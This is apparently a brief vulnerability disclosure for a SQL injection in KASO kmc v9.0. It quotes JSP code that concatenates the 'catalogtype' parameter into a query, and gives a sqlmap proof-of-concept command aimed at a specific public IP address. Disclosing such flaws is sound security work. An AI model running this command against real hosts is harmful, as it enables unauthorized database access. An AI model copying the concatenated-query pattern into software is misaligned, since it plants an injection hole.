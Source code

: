 # KASO kmc/user_popedom.jsp Sql Injection


VERSION: v9.0


Code

    String catalogtype=ParamUtils.getString(request,"catalogtype",""); 

    <%     
       SQL=" select username,action,usertype,dzyname "
          +" from km_popedom a,zhiydoc b "
          +" where a.username=b.dzyid and folderid='"+ catalogtype +"' ";
       //out.println(SQL);
       rs=DBmenu.executeQuery(SQL);
    %>


Injection：catalogtype

Injection url: http://47.108.238.101:8088/kmc/user_popedom.jsp?catalogtype=1


poc:
python .\sqlmap.py -u "http://47.108.238.101:8088/kmc/user_popedom.jsp?catalogtype=1" --random-agent --dbms=mssql


![image](https://github.com/user-attachments/assets/411f83b4-b5a4-4f78-b6ec-62fa663e46f7)





